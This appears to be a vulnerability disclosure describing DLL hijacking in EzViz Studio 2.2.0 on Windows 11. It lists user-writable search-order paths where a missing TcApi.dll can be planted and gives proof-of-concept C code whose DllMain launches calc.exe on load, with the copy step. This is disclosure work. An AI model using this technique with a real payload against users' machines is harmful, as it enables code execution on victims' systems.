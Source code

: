 ### DLL Hijacking via EzViz Studio (EAFZ from Pythongoras) 
 
### 1.Test Environment: 
- OS: Windows 11 Pro 64 bit(10.0,  Build 2261) 
- EzViz Studio version: 2.2.0 
### 2.Technical Description  
1. Technical Description
 
<img src="https://github.com/myantti3m/eafz1/blob/main/2.jpg">
EzvizStudio.exe searches for a DLL called TcApi.dll. Because TcApi.dll doesn’t exist in any of the paths of the DLL search order. In particular, some paths have writable permissions for normal users as:

- C:\Users\<Username>\AppData\Local\Programs\Microsoft VS Code\bin\TcApi.dll

- C:\Users\<Username>\AppData\Local\Microsoft\WindowsApps\TcApi.dll

So we can plant “malicious” TcApi.dll inside these directories and wait until the application will load it.

### 3.POC 

We created a malicious DLL file (TcApi.dll) and complied it. In our case, it opens calc.exe. You can see the code below: 
```
#include <windows.h> 
#pragma comment (lib, "user32.lib") 
#include "pch.h" 
#include <iostream> 
#include <stdlib.h> 
BOOL APIENTRY DllMain(HMODULE hModule, 
 	DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:  system("calc.exe"); break;
  case DLL_PROCESS_DETACH:  break;
  case DLL_THREAD_ATTACH:   break;
  case DLL_THREAD_DETACH:   break; 
 	} 
 	return TRUE; 
}  
```
  
Copy it to "C:\Users\<Username>\AppData\Local\Microsoft\WindowsApps\"
If we run the EzVizStudio again, the code from the “malicious” DLL runs: 
  
 <img src="https://github.com/myantti3m/eafz1/blob/main/3.jpg">
 
 <img src="https://github.com/myantti3m/eafz1/blob/main/4.png">
